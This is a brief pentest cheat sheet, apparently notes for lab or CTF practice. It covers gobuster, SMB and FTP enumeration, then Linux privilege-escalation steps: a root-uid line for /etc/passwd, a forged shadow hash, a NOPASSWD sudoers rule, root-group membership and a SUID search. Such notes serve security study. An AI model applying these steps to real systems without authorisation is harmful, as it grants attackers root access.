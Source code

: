 
### SERVER WEB
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x txt,php,html,js -u http://10.10.245.130
```

### SMB (139 445)
```bash
$ enum4linux IP
$ smbclient //IP//Share
```


### FTP
***(anonymous login)***  
writeable files ?
$ get <filename>

### WEB
Look for commentary (even in default page)  
enumerate (gobuster)  
look for login form (Bruteforce)  
Commentary form (XSS)  


## PRIVESC
```bash
sudo -l (certains fichiers sont peut être modifiables ? $PATH ? Verify owner)
```
####/etc/passwd
- Droits sur /etc/passwd 
```bash
openssl passwd newpasswordhere
```
```test:x:0:0:root:/root:/bin/bash```  
### /etc/shadow
Droits sur /etc/shadow (hash pour "hashcat")
```bash
mkpasswd -m sha-512 newpasswordhere
```
Le resultat doit être comme suit : 
```
newroot:$6$K9AELjcE4suxukCp$vNLveaks59l46HZOT5TCaxMa1xI6agxYmAFE9CMWCY9/LtBWhzlKM6k4ivhCCntbtFB/Exh3SifcOP9UZ2SIS.:19328:0:99999:7:::
```
### /etc/sudoers
```bash 
sudo -l 
```
- Droits sur /etc/sudoers  
***user ALL = (root) NOPASSWD: ALL***
### /etc/group
- Droits sur /etc/group  
append user at end of root:x:0:<UTILISATEUR>
### SUID : GTFObins
```bash
find / -perm -u=s -type f 2>/dev/null
```
